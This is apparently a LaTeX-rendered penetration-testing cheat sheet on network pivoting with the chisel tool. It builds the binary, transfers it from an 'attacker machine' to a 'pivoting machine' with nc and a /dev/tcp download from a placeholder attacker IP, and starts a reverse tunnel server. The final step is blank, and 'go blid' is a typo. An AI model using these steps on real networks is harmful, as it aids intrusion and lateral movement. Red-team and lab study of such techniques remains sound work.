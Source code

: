 \documentclass{assets/ipesethesis}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\BuiltInTok}[1]{#1}
\newcommand{\ExtensionTok}[1]{#1}
\newcommand{\FunctionTok}[1]{\textcolor[rgb]{0.00,0.00,0.00}{#1}}
\newcommand{\NormalTok}[1]{#1}
\newcommand{\OperatorTok}[1]{\textcolor[rgb]{0.81,0.36,0.00}{\textbf{#1}}}
\newcommand{\StringTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
\begin{document}
\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Get chisel and build

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{git}\NormalTok{ clone https://github.com/jpillora/chisel}
\BuiltInTok{cd}\NormalTok{ chisel}
\ExtensionTok{go}\NormalTok{ blid -ldflags }\StringTok{"-s -w"}\NormalTok{ .}
\ExtensionTok{upx}\NormalTok{ brute chisel}
\end{Highlighting}
\end{Shaded}
\item
  Send Chisel binary to the pivoting machine

  \begin{itemize}
  \item
    on attacker machine

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{md5sum}\NormalTok{ chisel}
\ExtensionTok{nc}\NormalTok{ -nlvp 443 }\OperatorTok{<}\NormalTok{ chisel}
\end{Highlighting}
\end{Shaded}
  \item
    on pivoting machine

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{cat} \OperatorTok{>}\NormalTok{ chisel }\OperatorTok{<}\NormalTok{ /dev/tcp/}\OperatorTok{<}\NormalTok{attacker ip}\OperatorTok{>}\NormalTok{/443}
\ExtensionTok{md5sum}\NormalTok{ chisel}
\FunctionTok{chmod}\NormalTok{ +x chisel}
\end{Highlighting}
\end{Shaded}
  \end{itemize}
\item
  Create reverse port forwarding with the victim machine ports to bind attacker machine ports

  \begin{itemize}
  \item
    on attacker machine

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{./chisel}\NormalTok{ server --reverse -p 1234}
\end{Highlighting}
\end{Shaded}
  \item
    on pivoting machine


\end{itemize}
\end{enumerate}
\end{document}
